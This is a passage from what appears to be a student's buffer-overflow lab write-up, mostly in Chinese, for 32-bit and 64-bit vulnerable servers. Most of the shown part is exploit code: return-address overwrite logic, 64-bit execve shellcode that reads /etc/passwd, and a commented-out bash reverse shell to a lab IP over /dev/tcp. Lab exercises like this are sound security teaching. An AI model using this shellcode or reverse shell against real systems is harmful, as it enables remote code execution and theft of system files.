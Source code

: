 ```python
# Decide the return address value
# and put it somewhere in the payload
ret = 0xFFFFD178+300+4*2     # Change this number

for offset in range(100,304,4):
  # Use 4 for 32-bit address and 8 for 64-bit address
  content[offset:offset + 4] = (ret).to_bytes(4, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

![image-20220309223504837](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012242170.png)



## Task 4: Level-3 Attack

**64-bit server program**

先随便发信息进行测试：

```terminal
$ echo hello | nc 10.9.0.7 9090
Ctrl+C
```

发现buffer位置是：`0x00007fffffffe350`，oldebp地址：`0x00007fffffffe420`

<img src="https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012242081.png" alt="image-20220310125035149" style="zoom:80%;" />

栈图和task2类似，但是需要注意challenge中提到的64位最高2byte都是0,strcpy遇到0截断：

![](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012242360.jpg)

`exploit.py`，其中shellcode需要用64位的：

```python
#!/usr/bin/python3
import sys

shellcode = (
    "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
    "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
    "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
    "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
    "/bin/bash*"
    "-c*"
    # The * in this line serves as the position marker         *
    # "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
    "/bin/ls -l; echo Hello 64; /bin/tail -n 4 /etc/passwd     *"
    "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
    "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
    "CCCCCCCC"   # Placeholder for argv[2] --> the command string
    "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 0               # Change this number
content[start:start + len(shellcode)] = shellcode
```